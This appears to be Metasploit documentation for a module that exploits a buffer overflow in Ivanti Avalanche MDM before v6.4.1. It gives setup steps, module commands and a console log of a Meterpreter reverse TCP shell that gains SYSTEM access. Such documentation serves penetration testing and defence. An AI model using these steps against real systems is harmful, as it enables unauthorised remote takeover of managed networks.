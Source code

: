## Vulnerable Application

Ivanti Avalanche powered by Wavelink is a mobile device management system. Network security
features allow you to manage wireless settings (including encryption and authentication),
and apply those settings on a schedule throughout the network. Software distribution features
allow you to schedule software distribution to specific devices from the Avalanche Console.
Avalanche also provides tools for managing alerts and reports.

This module exploits a buffer overflow condition in Ivanti Avalanche MDM versions before `v6.4.1`.
An attacker can send a specially crafted message to the Wavelink Avalanche Manager,
which could result in arbitrary code execution with the `NT/AUTHORITY SYSTEM` permissions.
This vulnerability occurs during the processing of 3/5/8/100/101/102 item data types.
The program tries to copy the item data using `qmemcopy` to a fixed size data buffer on stack.
Upon successful exploitation the attacker gains full access to the target system.

The original analysis and the vulnerability discovery is done by the Tenable.
Check [here](https://www.tenable.com/security/research/tra-2023-27) for public advisory.

## Testing
For installing the vulnerable version follow the steps below,
1. To obtain the vulnerable versions of the MDM setup, first create a customer account at
[Ivanti](https://success.ivanti.com/customers/Community_RegStep1_Page?lp=register) (trial license is sufficient)
2. Navigate [here](https://www.wavelink.com/Download-Avalanche_Mobile-Device-Management-Software/)
and download any version **below** `v6.4.1`
3. Follow the installation steps.

After these steps, the MDM service should be accessible on port 1777.

## Verification Steps

1. msfconsole
2. Do: `use exploit/windows/misc/ivanti_avalanche_mdm_bof`
3. Do: `set RHOST [IP]`
4. Do: `run`
5. You should get a session.

## Options

## Scenarios

```
msf6 > use exploit/windows/misc/ivanti_avalanche_mdm_bof
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/ivanti_avalanche_mdm_bof) > set rhosts 192.168.56.109
rhosts => 192.168.56.109
msf6 exploit(windows/misc/ivanti_avalanche_mdm_bof) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(windows/misc/ivanti_avalanche_mdm_bof) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] 192.168.56.109:1777 - Connecting to target...
[*] 192.168.56.109:1777 - Sending payload...
[*] Sending stage (175686 bytes) to 192.168.56.109
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.109:49967) at 2023-08-25 19:15:42 +0200

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter >

```

